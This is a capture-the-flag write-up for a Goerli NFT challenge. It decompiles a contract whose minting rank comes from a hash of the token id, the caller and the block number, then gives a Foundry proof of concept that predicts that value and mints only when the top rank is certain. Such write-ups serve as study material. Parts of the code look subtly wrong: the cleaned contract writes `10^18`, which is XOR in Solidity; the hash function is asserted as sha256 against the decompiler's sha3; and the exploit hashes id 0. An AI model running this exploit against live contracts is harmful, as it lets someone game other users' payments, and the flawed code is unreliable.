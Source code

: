 # Predictable NFT

## Challenge

We receive a address on goerli and a poc snippet:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^ 0.8.19;

import "forge-std/Test.sol";

contract PredictableNFTTest is Test {
	address nft;

	address hacker = address(0x1234);

	function setUp() public {
		vm.createSelectFork("goerli");
		vm.deal(hacker, 1 ether);
		nft = address(0xFD3CbdbD9D1bBe0452eFB1d1BFFa94C8468A66fC);
	}

	function test() public {
		vm.startPrank(hacker);
		uint mintedId;
		uint currentBlockNum = block.number;

		// Mint a Superior one, and do it within the next 100 blocks.
		for(uint i=0; i<100; i++) {
			vm.roll(currentBlockNum);

			// ---- hacking time ----

			currentBlockNum++;
		}

		// get rank from `mapping(tokenId => rank)`
		(, bytes memory ret) = nft.call(abi.encodeWithSignature(
			"tokens(uint256)",
			mintedId
		));
		uint mintedRank = uint(bytes32(ret));
		assertEq(mintedRank, 3, "not Superior(rank != 3)");
	}
}
```


## Solution
As we don't have any source code for this chall i first started by decompiling the bytecode of the given address. I used Palkeoramix decompiler (included in Etherscan) for this, which gave me the pseudocode:
```solidity
# Palkeoramix decompiler. 

def storage:
  id is uint256 at storage 0
  tokens is mapping of uint256 at storage 1

def tokens(uint256 _param1): # not payable
  require calldata.size - 4 >=ΓÇ▓ 32
  return tokens[_param1]

def id(): # not payable
  return id

#
#  Regular functions
#

def _fallback() payable: # default function
  revert

def mint() payable: 
  if call.value != 10^18:
      revert with 0, 'show me the money'
  if id > id + 1:
      revert with 0, 17
  id++
  if sha3(id, caller, block.number) % 100 > 90:
      tokens[stor0] = 3
  else:
      if sha3(id, caller, block.number) % 100 <= 80:
          tokens[stor0] = 1
      else:
          tokens[stor0] = 2
  return id
```

As this code couln't be directly run like this i cleaned it up a bit:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^ 0.8.19;

contract NFT
{
    uint256 id;
    mapping(uint256 => uint256) tokens;

    function mint() public payable returns (uint256)
    {
        require(msg.value == 10^18, "show me the money");
        require(id < id + 1, "Overflow");

        id = id + 1;

        if((uint256(sha256(abi.encodePacked(id, msg.sender, block.number))) % 100) > 90)
        {
            tokens[id] = 3;
        }
        else
        {
            if((uint256(sha256(abi.encodePacked(id, msg.sender, block.number))) % 100) <= 80)
            {
                tokens[id] = 1;
            }
                
            else
            {
                tokens[id] = 2;
            }
        }
        return id;
    }
}
``

So it's pretty easy. You can just use the same function as the challenge uses (sha256 not keccak256) and see which hash to the modulo of 100 will be above 90.

## POC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^ 0.8.19;

import "forge-std/Test.sol";

contract PredictableNFTTest is Test {
	address nft;

	address hacker = address(0x1234);

	function setUp() public {
		vm.createSelectFork("goerli");
		vm.deal(hacker, 1 ether);
		nft = address(0xFD3CbdbD9D1bBe0452eFB1d1BFFa94C8468A66fC);
	}

	function test() public {
		vm.startPrank(hacker);
		uint mintedId;
		uint currentBlockNum = block.number;

		// Mint a Superior one, and do it within the next 100 blocks.
		for(uint i=0; i<100; i++) {
			vm.roll(currentBlockNum);

			// ---- hacking time ----

            if((uint256(sha256(abi.encodePacked(uint256(0), hacker, currentBlockNum))) % 100) > 90 && mintedId == 0)
            {
				nft.call{value: 1 ether}(abi.encodeWithSignature("mint()"));
				mintedId = 1;
            }

			currentBlockNum++;
		}

		// get rank from `mapping(tokenId => rank)`
		(, bytes memory ret) = nft.call(abi.encodeWithSignature(
			"tokens(uint256)",
			mintedId
		));
		uint mintedRank = uint(bytes32(ret));
		assertEq(mintedRank, 3, "not Superior(rank != 3)");
	}
}
```

